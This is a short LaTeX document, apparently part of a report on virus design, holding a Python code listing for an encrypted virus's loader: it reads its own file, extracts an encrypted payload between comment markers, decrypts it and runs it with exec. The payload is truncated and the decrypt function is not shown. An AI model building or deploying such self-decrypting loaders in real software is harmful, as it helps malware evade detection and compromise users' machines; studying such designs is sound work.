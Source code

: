 \documentclass[a4paper,11pt]{article}
\begin{document}
When the encrypted virus program body is decrypted and executed, it will do the following operations:

\begin{figure}
\centering
\includegraphics[scale=0.8]{img/virus-design}
\caption{Virus design\label{fig:mission}}
\end{figure}

\section{Implementation}

\begin{verbatim} 
# Open the virus itself
this = open(__main__.__file__, 'r')
# Set copy variable to False
copy = False
# Initialize an empty payload
cipher_payload = ''

# Search for the encrypted main body of the virus and copy it into cipher_payload
for line in this:
   if line.strip() == '# Start payload':
      copy = True
   elif line.strip() == '# End payload':
      copy = False
   elif copy:
      cipher_payload = cipher_payload + line
# Decrypt the main body of the virus and execute it.
e = decrypt(cipher_payload[1:])
exec e

# Encrypted main body of the virus
# Start payload
#8eoDXnZwwdY/TUaf5IQOo5+tbvE2zllu4t0m...
# End payload
\end{verbatim}
\end{document}
